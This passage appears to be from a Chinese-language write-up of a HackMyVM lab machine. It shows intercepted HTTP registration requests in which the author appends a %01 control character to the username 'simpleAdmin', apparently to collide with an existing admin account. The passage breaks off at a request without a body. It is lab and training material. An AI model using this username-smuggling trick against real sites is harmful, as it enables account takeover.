 进行注册，url编码需要使用`%01`进行控制，尝试进行抓包：

```bash
POST /register.php HTTP/1.1
Host: dark.disguise.hmv
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Referer: http://dark.disguise.hmv/register.php
Origin: http://dark.disguise.hmv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=jpk0kguhvfp65sbi3ut4d183hs
Content-Length: 36

username=a&password=a&captcha=2JVL8C
```

进行修改，我这里因为误操作，导致创建了错误的用户名，只能重新导入靶机再来了。。。。

> 导入完靶机，IP变了，Yakit也要重启，否则好像不更新 hosts

```bash
POST /register.php HTTP/1.1
Host: dark.disguise.hmv
Referer: http://dark.disguise.hmv/register.php
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=o6qrldi4ugpjot3gcibnhi6ndl
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://dark.disguise.hmv
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Length: 43

username=simpleAdmin%01&password=aaaa&captcha=564B93
```

看一下响应：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506210258215.png" alt="image-20250621005903883" style="zoom:50%;" />

啥情况啊这。。。。。我之前还以为我搞错了呢。。。。不管他劫持，然后直接修改完直接放行即可：

```bash
POST /register.php HTTP/1.1
Host: dark.disguise.hmv
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Cookie: PHPSESSID=o6qrldi4ugpjot3gcibnhi6ndl
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Origin: http://dark.disguise.hmv
Upgrade-Insecure-Requests: 1
Referer: http://dark.disguise.hmv/register.php
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 43
```